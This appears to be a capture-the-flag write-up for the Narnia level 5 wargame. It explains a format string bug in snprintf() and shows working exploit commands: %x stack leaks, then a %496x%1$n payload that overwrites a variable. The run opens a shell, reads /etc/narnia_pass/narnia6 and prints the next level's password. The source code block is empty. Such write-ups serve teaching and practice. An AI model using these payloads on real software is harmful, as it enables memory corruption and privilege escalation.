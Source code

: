 ```c
```

The issue here is the *snprintf()* function, as you can see there are no format specifiers. It means that we have a potential **format string** vulnerability here. Let's try to enter some format specifiers in our input :

```bash
./narnia5 %x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000.30303035.3330332e] (26)
i = 1 (0xffffd6d0)
```

Ok, it's definitly a format string vulnerability. With this kind of issue, we can write where we want in memory as long as we know where. Luckily, the program gives us the address of **i**.

Now, to write something on the stack we'll use the **%n** specifier. Basically, **%n** write the size of our input at the address pointed by *%n*. For example, the following input : **AAAA%n**, means that we will write the value **4** (because the size of “AAAA” equals 4 bytes) at the address pointed by %n. But, where on the stack **%n** points to ?

Well, let's say we want to write **4** at **AAAA** (`0x41414141`), we need to find the position of **AAAA** on the stack. To do that we'll just enter the address followed by some **%x** specifiers :

```bash
narnia5@narnia:/narnia$ ./narnia5 AAAA%08x.%08x.%08x.%08x.%08x.%08x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA41414141.31343134.31343134.3331332e.33313334.31332e34] (57)
i = 1 (0xffffd6b0)
```

In this case, the address is in the first position on the stack so, the exploit would look like this : 

```bash
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "AAAA" + "%1$n"')
Segmentation fault
```

Obviously, it segfault as we try to write the value **4** at a random address. Note the `%1$n`, the **1** specify the position of our address on the stack. If it was on the 3rd postion we would have used `%3$n`.

However we don't want to write **4**, we want to write **500**. To do that we will use `%<size>$x`, it will serve as padding. Instead of writting our address followed by **496** chars, we'll use **%496$x**.

Let's try :

```bash
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\xc0\xd6\xff\xff" + "%496x%1$n"')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
neezocaeng
```
